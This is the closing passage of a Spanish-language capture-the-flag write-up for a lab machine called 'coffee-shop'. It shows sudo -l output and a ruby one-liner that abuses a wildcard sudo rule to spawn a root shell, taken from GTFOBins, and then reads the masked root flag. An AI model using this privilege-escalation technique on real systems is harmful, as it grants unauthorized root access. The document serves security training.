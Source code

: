 ~~~bash
shopadmin@coffee-shop:~$ sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
shopadmin@coffee-shop:~$ 
~~~

Podemos usar ese script concreto de tuby como *root*, así que si nos vamos a junto nuestro gran amigo <https://gtfobins.github.io/gtfobins/ruby/#sudo> para poder escalar privilegios fácilmente:

~~~
shopadmin@coffee-shop:~$ sudo ruby -e 'exec "/bin/sh"' /opt/shop.rb
# cd /root
# ls
root.txt  snap
# cat root.txt  
C4####################NN
~~~

Con esto finalizamos la máquina, agradecer a MrMidnight por la misma. Nos vemos en la siguiente.